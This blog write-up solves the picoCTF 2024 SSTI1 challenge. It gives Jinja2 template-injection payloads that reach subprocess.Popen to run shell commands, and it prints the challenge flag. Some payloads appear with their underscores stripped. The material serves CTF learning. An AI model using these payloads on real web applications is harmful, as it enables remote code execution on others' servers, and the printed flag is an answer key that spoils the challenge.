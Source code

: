 ```yaml
---
layout: BLOGS
title: PicoCTF_Web_Exploitation | SSTl1 |Easy
date: 13-05-2025
categories: [documentation]
tag: [Easy CTF]

---
```


Welcome to DarkR7 blogs.....

# Heading

# picoCTF 2024: SSTI1 Challenge Writeup

## 📌 Challenge Description

> Can you exploit this website? Try to get the website to evaluate a Jinja expression.  


> Link: http://rescued-float.picoctf.net:59626/
 


## 🧠 Understanding the Challenge

This is a **Server-Side Template Injection (SSTI)** challenge using the **Jinja2** template engine.

Our goal is to inject Jinja2 expressions to get the server to execute arbitrary code and ultimately leak the flag.



## 🛠️ Step-by-Step Solution

### 1. Open the Website

The page asks for input and returns it rendered back. This suggests it may be vulnerable to SSTI.

![Initial Site](_data/images/Screenshot_2025-05-13_14_46_53.png)



### 2. Test for Injection

We enter a basic test string: 

{{7*7}}


If the site returns `49`, then SSTI is confirmed.

![SSTI Test](_data/images/Screenshot_2025-05-13_14_51_15.png)



### 3. Try Accessing Built-ins

To escalate, we inject the following payload to access built-ins:


{{''.class.mro[2].subclasses()}}


This gives access to all subclasses, including `Popen`.

![Subclasses Output](images/Screenshot_2025-05-13_14_48_45.png)



### 4. Find `subprocess.Popen` Index

We locate the index of `subprocess.Popen` subclass from the list and use it to execute code. Example:

{{''.class.mro[2].subclasses()[<index>]("ls", shell=True, stdout=-1).communicate()}}


Try commands like `cat flag.txt`.



### 5. Extract the Flag

Eventually, we find the flag using a working payload like:

{{''.class.mro[2].subclasses()[<index>]("cat flag.txt", shell=True, stdout=-1).communicate()}}


![Flag Leaked](images/Screenshot_2025-05-13_14_51_15.png)

And finally...

![Flag Final](images/Screenshot_2025-05-13_14_51_21.png)



## 🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}




## 📚 Concepts Learned

- Server-Side Template Injection (SSTI)
- Jinja2 internals
- Python object hierarchy
- Remote code execution using template injection



## ✅ Tips

- Always test for SSTI using `{{7*7}}`
- Use introspection to access sensitive functions
- Be cautious with payload indexing; try printing small batches to locate targets like `Popen`

